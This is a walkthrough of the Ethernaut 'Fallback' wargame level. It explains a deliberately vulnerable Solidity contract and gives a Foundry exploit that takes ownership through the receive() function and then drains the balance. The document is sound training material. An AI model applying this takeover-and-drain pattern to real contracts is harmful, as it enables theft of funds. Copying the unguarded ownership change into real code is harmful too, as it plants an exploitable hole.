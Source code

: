 # Ethernaut walkthrough
![Ethernaut](https://github.com/0xVinum/Ethernaut-walkthrough/assets/138346100/27dd7a7c-76a5-4052-b670-370035445a59)
### Introduction
_"Ethernaut is a Web3/Solidity based wargame inspired by overthewire, to be played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'._

_The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks as levels. There can be an infinite number of levels and the game does not require to be played in any particular order."_
## About
- [Introduction](#introduction)
- [About](#about)
- [Challenge](#challenge)
- [Understanding the contract](#understanding-the-contract)
  - [Code](#code)
  - [Analysis](#analysis)
  - [Exploit](#exploit)
- [Solution](#solution)

## Challenge
Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units
- Fallback methods
## Understanding the contract
### Code
```// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
### Analysis
1. **Pragma Statement:**
The pragma statement specifies the version of the Solidity compiler that the contract should be compiled with. In this case, the contract is intended to be compiled using Solidity version 0.8.0.

```
pragma solidity ^0.8.0;
```


3. **Contract Definition:**
The contract is named **Fallback**. It contains functions and state variables that define its behavior.

```
contract Fallback {
```

4. **State Variables:**
   - **contributions:** This is a state variable that maps addresses to their contributed amounts (balances) in Ether.
   - **owner**: This is a public state variable of type **address** that represents the owner of the contract.

```  
    mapping(address => uint) public contributions;
    address public owner;
```
5. **Constructor:**
The constructor is executed when the contract is deployed. It sets the initial **owner** to the address that deployed the contract and assigns an initial contribution of 1000 Ether to the owner.
```
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
```
7. **Modifier (onlyOwner)**:
This modifier restricts certain functions to be callable only by the contract's owner. If the condition in the **'require'** statement is not met, the function execution is halted.
```
  modifier onlyOwner {
    require(
      msg.sender == owner,
      "caller is not the owner"
    );
    _;
  }
```

9. **'contribute' Function:**
This function allows users to contribute Ether to the contract. It imposes a limit of 0.001 Ether per contribution. The function updates the contributions of the sender and may update the **'owner'** if their contribution surpasses the current owner's contribution.
```
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

11. **'getContribution' Function**:
This function returns the contribution balance of the caller.
```
  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }
```

13. **'withdraw' Function:**
This function allows the contract's owner to withdraw the contract's balance. Only the owner can call this function due to the **'onlyOwner'** modifier.
```
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

15. **'receive' Function:**
This function is a fallback function that is automatically called when Ether is sent to the contract without specifying a function to call. It requires a positive value of Ether and that the sender has made contributions. It updates the **'owner'** to the sender's address.
```
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
### Exploit
To exploit the contract, one should follow these steps:

1. Invoke the "contribute" function with a maximum of 0.001 ether.
2. Dispatch 1 wei to the contract in order to initiate the "receive" function.
3. Initiate the "withdraw" function to retrieve all ETH held within the contract.

## Solution
```
function exploit() internal override {
    vm.startPrank(player);

    // invoke the "contribute" function with a maximum of 0.001 ether.
    level1.contribute{value: 0.0001 ether}();

    // dispatch 1 wei to the contract in order to initiate the "receive" function.
    (bool sent, ) = address(level1).call{value: 1}("");
    require(sent, "Failed to send Ether");

    // initiate the "withdraw" function to retrieve all ETH held within the contract.
    level1.withdraw();

    vm.stopPrank();
}
```
